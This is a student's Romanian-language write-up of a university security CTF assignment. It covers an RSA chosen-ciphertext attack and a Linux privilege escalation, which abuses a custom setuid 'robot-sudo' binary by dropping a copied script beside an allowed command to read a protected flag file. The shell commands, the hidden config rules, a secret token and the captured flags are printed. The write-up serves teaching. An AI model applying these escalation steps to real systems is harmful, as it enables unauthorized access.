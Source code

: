 # TEMA 1 ISC -> ANCA-MARIA COLACEL

**Tema contine 3 taskuri. Le voi detalia pe fiecare in parte.**

## TASK1 - CRYPTO-ATTACK
In vederea rezolvarii acestui exercitiu a fost necesara completarea scriptului pus la dispozitie in arhiva.
Am inceput cu hinturile puse la dispozitie in cerinta si decodand din base64 KLT vahlxg vbiaxkmxqm tmmtvd am vazut ca se foloseste RSA chosen chiper attack. Celalalt nu era util :)
Am incercat sa decodez message.txt din b64 si am obtinut un json cu 3 campuri, n, e si flag, astfel am format chiper_dash-ul necesar algoritmului in urma aplicarii formulei. M-am gandit ca formatul in care trebuie trimise informatiile la server este tot json astfel ca formez noul json folosind chiper_dash-ul, l-am encodat si l-am trimis la server. Salvez raspunsul de la server, folosesc decode-unicode si apoi fac conversie din string in numar pt ca potrivit algoritmului trebuie sa impart la numarul random. Dupa ce fac impartirea practic obtin flagul dar in format numeric asa ca il convertesc in string si il printez. 
### FLAG: SpeishFlag{DCUuhc0WShG69E0H7kF6V2LIxLu7O2gi}

## TASK2 - LINUX ACL
 1) In primul rand ma conectez la userul janitor cu ssh.
    
    ```ssh -i id_rsa janitor@isc2023.1337.cx```

2) Dau urmatoarea comanda si gasesc fisierul hints.txt la calea /var/.hints.txt.

   ```find /var -type f -exec grep -l 'hints' {} +```
   
   Dau cat pe fisier si obtin:

   ```
   Here's more hints:
   - No ideas? Try to ltrace the setuid binaries!
   - Try to find the hidden config directory ;)
   - How does that custom sudo binary match the allowed command? How about its
    arguments?
   - You can add scripts to the same dir as sudo-permitted ones, but you cannot
    delete/modify them due to sticky bit :P

   ```

  3) Dupa ce ma uit prin fisiere observ ca de interes este fisierul robo-sudo acesta avand userul zboss

   ```
   janitor@fhunt:/usr/local/bin$ ls -la         
   total 48
   drwxrwxr-t+ 1 root     root     4096 Dec  7 16:01 .
   drwxr-xr-x  1 root     root     4096 Oct  3 02:03 ..
   -rwxr-xr-x  1 janitor  janitor    74 Apr 10  2022 janitor-coffee.sh
   -rwxr-xr-x  1 janitor  janitor   228 Apr 10  2022 janitor-vacuum.sh
   -rwsr-xr-x  1 wallybot zboss   17408 Dec  7 16:01 robot-sudo
   -rwxr-xr-x  1 root     root      163 Apr 10  2022 vacuum-control

   ```

Dau strings pe robot-sudo si gasesc 
```

Please supply a command as argument!
Unable to determine current user! Exiting...
Hey, no shell injection please!
Invalid command given!
/.you.are.never/.gonnafindthis/r0b0t3rs.conf

```
deci am gasit fisierul cu permisiuni si din acesta gasesc regulile: 

```
allow wallybot /opt/.wellhidden/0b3y.b0ss
allow janitor /usr/local/bin/vacuum-control

```

Ca sa pot gasi flagul trebuie sa ma folosesc de /usr/local/bin/vacuum-control. 
Ma uit in /opt/.wellhidden/0b3y.b0ss unde gasesc de interes **ad002825749349601baafd654b5406e2Access denied!
I will contact you when I require your cleaning services, janitor!
Congratulations, here's your flag:cat /etc/opt/something/here.bin/.xyzflag**.
M-am gandit sa folosesc tokenul acesta

```
janitor@fhunt:/usr/local/bin$  /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
I will contact you when I require your cleaning services, janitor!

```

si am primit asta. 

4) Folosesc /usr/local/bin/vacuum-control in /usr/local/bin/vacuum-control-v1 si fac urmatoarea modifacare ca sa pot gasi flagul

`janitor@fhunt:/usr/local/bin$ cat vacuum-control-v1 
#!/bin/bash

if [[ $EUID -lt 7000 ]]; then
    echo "ERROR: Access denied!"
    exit 1
fi

/opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
cat /etc/opt/something/here.bin/.xyzflag

# the rest of its implementation omitted / not important

janitor@fhunt:/usr/local/bin$ robot-sudo /usr/local/bin/vacuum-control-v1 /opt/.wellhidden/0b3y.b0ss ad002825749349601baafd654b5406e2
Congratulations, here's your flag:
SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}``


```

Am  modificat in script apoi am rulat ca si robot-sudo si am obtinut flagul.

### FLAG: SpeishFlag{RpBElwNQrhVrrYLolrkLrTOXtOQgZJWL}



   
   
    
 
 , 

